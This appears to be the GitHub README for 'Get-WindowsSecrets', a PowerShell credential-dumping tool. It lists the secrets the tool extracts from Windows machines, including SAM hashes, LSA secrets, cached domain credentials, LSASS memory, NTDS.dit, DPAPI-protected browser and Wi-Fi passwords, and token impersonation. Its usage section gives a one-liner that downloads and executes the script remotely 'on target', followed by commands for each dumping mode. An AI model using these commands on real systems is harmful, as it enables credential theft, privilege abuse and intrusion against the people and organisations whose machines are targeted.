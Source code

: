 # MindMap

[MindMap](<https://github.com/YRazafim/Get-WindowsSecrets/blob/main/Windows Secrets.pdf>) with pseudo-code for a high-level overview.

# Why

To understand how to dump Windows Secrets internally.<br/>
Powershell implementation of [Secretsdump](<https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py>) and [Pypykatz](<https://github.com/skelsec/pypykatz>).<br/>
The script work (or should work!) on a local Windows machine:
  * Powershell v2 to latest
  * Windows NT 6.0 to latest

It is not intended to bypass AVs/EDRs and you have to be administrator on the computer.<br/>
The code is commented to understand each process.

Currently It can:<br/>
   * Dump BootKey
   * Compute Hashed BootKey
   * Dump SAM
   * Dump LSA Secrets
      *	$MACHINE.ACC = Machine account password in clear text if computer is joined to a domain<br/>
      * DefaultPassword = Clear text password when autologon is configured for an account<br/>
      * NL$KM = Secret key in clear text for decrypting Cached Domain Credentials<br/>
      * DPAPI_SYSTEM = System User PreKey and System Machine PreKey in clear text for decrypting System User MasterKey files and System Machine MasterKey files (DPAPI)<br/>
      * \_SC\_&lt;ServiceName&gt; = Account password for Windows Services (not Scheduled Tasks) in clear text<br/>
      * ASPNET_WP_PASSWORD = Password for .NET services in clear text<br/>
      * L$_SQSA_S-&lt;SID&gt; = Clear text answers for Windows Security Questions
   * Dump Cached Domain Credentials
   * Dump DPAPI Secrets<br/>
      * Wi-Fi passwords<br/>
      * Chrome cookies/passwords<br/>
      * Vault Credential Manager passwords (VPOL and VCRD files)
   * Dump VNC passwords (RealVNC, TightVNC, TigerVNC, UltraVNC)
   * Dump NTDS.dit (Shadow Copy and parsing as ESE format)
   * Dump LSASS (ProcOpen and DupHandle methods)
   * List Session Tokens and Impersonate (ImpersonateLoggedOnUser()/CreateProcessWithToken()/CreateProcessAsUser())

# How it works

Download the script on target and from Powershell:
```
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/YRazafim/Get-WindowsSecrets/main/Get-WindowsSecrets.ps1")
. <Path>\Get-WindowsSecrets.ps1;
Get-WindowsSecrets -SAM
Get-WindowsSecrets -LSA
Get-WindowsSecrets -CachedDomainCreds
Get-WindowsSecrets -VNC
Get-WindowsSecrets -NTDS
Get-WindowsSecrets -SessionTokens
Get-WindowsSecrets -ActivatePrivilege "SeShutdownPrivilege"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "ImpersonateLoggedOnUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessWithToken"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser"
Get-WindowsSecrets -Impersonate -TokenProcID 1528 -ImpersonateMethod "CreateProcessAsUser" -Command "whoami"
Get-WindowsSecrets -LSASS
Get-WindowsSecrets -DPAPI
Get-WindowsSecrets -DPAPI -Creds 'User1:Pwd1/User2@Domain:Pwd2' -NTHashes 'User1:HexNTHash1/User2@Domain:HexNTHash2'
Get-WindowsSecrets -DPAPI -Creds 'User1:Pwd1/User2@Domain:Pwd2' -NTHashes 'User1:HexNTHash1/User2@Domain:HexNTHash2' -SkipLSASS
```

Creds and NTHashes parameters helped for DPAPI only (If you compromised these secrets for a user).
